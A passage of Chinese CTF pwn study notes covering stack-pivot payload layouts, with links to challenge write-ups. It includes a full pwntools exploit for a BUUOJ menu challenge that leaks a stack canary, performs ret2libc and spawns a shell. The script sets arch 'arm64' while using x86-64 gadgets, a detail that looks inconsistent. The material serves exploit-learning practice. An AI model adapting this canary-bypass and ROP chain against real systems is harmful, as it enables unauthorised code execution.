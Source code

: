 ```python
p.sendline(payload)
p.interactive()
```

- 栈迁移+ret2libc:[[Black Watch 入群题]PWN](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/%5BBlack%20Watch%20%E5%85%A5%E7%BE%A4%E9%A2%98%5DPWN.md)

- 栈迁移:[ciscn_2019_es_2](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/ciscn_2019_es_2.md)

栈迁移分很多种情况。第一种情况：`偏移+栈迁移目标地址-4+leave_ret`，同时目标地址直接写ropchain。第二种情况：`偏移+栈迁移目标地址+leave_ret`，目标地址先根据程序是多少位的填充4或者8个字节，再写ropchain。第三种情况，迁移的目标地址离一些重要地址比较近，比如got表，这时候就要留出一些位置，`偏移+栈迁移目标地址-0xd0+leave_ret`，目标地址先写0xd0+4个偏移再写ropchain；或者`偏移+栈迁移目标地址+leave_ret`，但是目标地址的ropchain前面加上若干个ret，抬高栈。例题：[gyctf_2020_borrowstack](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/gyctf_2020_borrowstack.md)。栈迁移的目标是让rsp/esp到我们控制的地址上去，不是只有leave;ret可以实现这个效果。假如有类似`mov rsp, rbp ; pop rbp ; ret`的gadget，一次就能迁移成功。

- 菜单类栈溢出题+canary绕过+ret2libc

```python
from pwn import *
context.log_level='debug'
context(arch='arm64')   #因为下方使用了flat，故此处一定要根据程序的位数填写，这个是64位，32位是i386。如果填写错误会导致下方的flag出错。
p=remote('node4.buuoj.cn',27351)
def Store(content):
    p.recvuntil('>>')
    p.sendline('1')
    p.sendline(content)
 
def Print():
    p.recvuntil('>>')
    p.sendline('2')
 
def Quit():
	p.recvuntil('>>')
	p.sendline('3')
puts_plt=0x00400690
puts_got=0x00600fa8
pop_rdi=0x0000000000400a93
main=0x00400908
payload=b'a'*0x88
Store(payload)
Print()
p.recvuntil('a\n')
canary=p.recv(7).rjust(8,b'\x00')
print(canary)
payload=flat([b'a'*0x88,canary,0,pop_rdi,puts_got,puts_plt,main])
Store(payload)
Quit()
p.recv()
puts=u64(p.recv(6).ljust(8,b'\x00'))
puts_offset=456336
libc_base=puts-puts_offset
binsh=1625431+libc_base
system=283536+libc_base
payload=flat([b'a'*0x88,canary,0,pop_rdi,binsh,system,main])
Store(payload)
Quit()
p.interactive()
```
